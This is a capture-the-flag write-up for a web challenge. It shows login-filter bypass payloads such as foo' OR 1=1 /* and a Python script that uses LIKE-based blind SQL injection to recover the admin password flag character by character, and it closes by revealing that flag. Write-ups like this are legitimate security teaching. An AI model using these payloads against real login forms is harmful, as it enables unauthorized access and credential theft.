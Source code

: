 # venting

Categories: Web

Description:
> BHmmmm. This website is kinda sus... Can you become the imposter and vent towards the flag?

## Takeaways

Simple blind SQL injection. Content-based SQLi or time-based SQLi works.

## Solution

Upon vising the website we are presented with the following page.

![index.png](writeup-resources/index.png)

So, let's send a request and see what happens.

![requests.png](writeup-resources/requests.png)

As we can see, several requests are sent out. The `GET /inthevents` stands out as it contains an `isAdmin` parameter. So we change it to `true` and repeat the request.

![inthevents.png](writeup-resources/inthevents.png)


We follow this secret location and we are presented with a pretty simple admin-login page.

```html
<!DOCTYPE html>
<html>
<head>
    <link rel="stylesheet" href="static/css/bootstrap.min.css">
    <title>Imposter!</title>
</head>
<!-- 
Okay sqlite is pretty cool but idk if i trust it
i learned this regex thing to stop bad people from logging in
but if that fails, i still have one card up my sleeve >:)
-->
<body>
    <h1> You vented to admin! Now login with your credentials "admin"
    </h1>
    <h2>
        <form action="/fff5bf676ba8796f0c51033403b35311/login" method="POST">
            <label class="form-label mt-4" for="user">Username:</label>
            <input class="form-control" type="text" id="user" name="user"><br>
            <label class="form-label mt-4" for="pass">Password:</label>
            <input class="form-control" type="text" id="pass" name="pass"><br>
            <input class="form-control" type="submit" value="Login">
        </form> 
    </h2>
</body>
</html>
```

![admin-page.png](writeup-resources/admin-page.png)

The comment hints that this is SQL-lite and we should probably do an SQL injection attack. Upon entering `foo'` as `user` and `bar` as `pass`, we are immediately presented with an error:

`Error when executing statement -> near "bar": syntax error SELECT * from users WHERE username='foo'' AND Password = 'bar';`

So this is definitely vulnerable to SQLi. We try the most basic payload `foo' OR 1=1 -- - `. But the error message now is:

`Error when executing statement -> near "ඞඞ": syntax error SELECT * from users WHERE username='foo' OR 1=1 ඞඞ ඞ ' AND Password = 'bar';`

With some more testing, we figure out that the application replaces `--` (comment) with `ඞඞ`. So, next I tried leaving an open comment to see what happens: `foo' OR 1=1 /*`. We successfully bypass the login as the rest of the query got commented away:

`If you're getting this you're not me. You'll never log in! ALSO I DIDNT HIDE ANYTHING IN MY PASSWORD SO DONT TRY!`

From the response, it seems that the password is in the flag. So we have to leak it. This is also a blind SQLi as the application does not respond with the query's data. Remember that the original query is `SELECT * from users WHERE username='foo' AND Password = 'bar';`. We will comment out the password part and replace it with a content-based blind SQLi query. So, the eventual query will look like:

`SELECT * from users WHERE username='admin' AND Password LIKE 'UMASS{XXX%' /*...`

where we will brute-force the password byte-by-byte.

```python
import requests
import urllib3
import string
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


proxyDict = {
    "http"  : 'http://127.0.0.1:8080',
    "https" : 'http://127.0.0.1:8080',
}

password = 'UMASS{'
alphabet = string.digits + string.ascii_letters
while(not password.endswith('}')):
    print(password)

    found = False # If no character is found in the alphabet, append the closing '}' 
    for ch in alphabet:
        new_password = password + ch
        r = requests.post('http://127.0.0.1:4446/fff5bf676ba8796f0c51033403b35311/login',
            data = {
                'user' : f"admin' AND password LIKE '{new_password}%' /*",
                'pass' : ""
            },
            proxies=proxyDict,
            verify=False,
            allow_redirects=False
        )
        assert(r.status_code == 200)
        if r.text == "If you're getting this you're not me. You'll never log in! ALSO I DIDNT HIDE ANYTHING IN MY PASSWORD SO DONT TRY!":
            password = new_password
            found = True
            break

    if found == False:
        password += '}'

print(password) # UMASS{7h35u55y1mp0573rcr4ck57h3c0d3}
```

So the flag is `UMASS{7h35u55y1mp0573rcr4ck57h3c0d3}`.
